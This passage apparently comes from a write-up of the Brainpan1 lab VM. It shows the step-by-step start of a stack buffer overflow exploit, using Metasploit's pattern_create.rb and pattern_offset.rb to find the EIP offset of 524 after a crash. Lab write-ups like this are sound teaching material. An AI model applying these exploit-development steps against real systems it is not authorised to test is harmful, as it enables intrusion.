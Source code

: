 We get a crash at `0x41414141` (hex representation of A) as expected, because EIP got overwritten. To exactly find the instruction pointer a tool like metasploit `pattern-create.rb` can be used.

```console
root@EdgeOfNight:~# cd /usr/share/metasploit-framework/tools/exploit/
root@EdgeOfNight:/usr/share/metasploit-framework/tools/exploit# ./pattern_create.rb -l 600
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9A
h0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao
0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
```
The tool ensures the string has unique sequence of characters. After the crash, finding the EIP offset will be easy as no sequence is the same and instruction pointer will have an unique value. Relaunch the python script with the long pattern and see what happens.

<img src="/img/blog/brainpan1/brainpan1-06.png">

Crash at an offset of **0x35724134**. The gained value can be afterwards put into next tool - `pattern-offset.rb`.

```console
root@EdgeOfNight:/usr/share/metasploit-framework/tools/exploit# ./pattern_offset.rb -q 0x35724134
[*] Exact match at offset 524
```
The meaning is pretty self-explanatory. `pattern_offset` takes a string query as a parameter which is then used to find exact amount of bytes before overwriting EIP. Armed with this knowledge we can go ahead and make a working exploit.
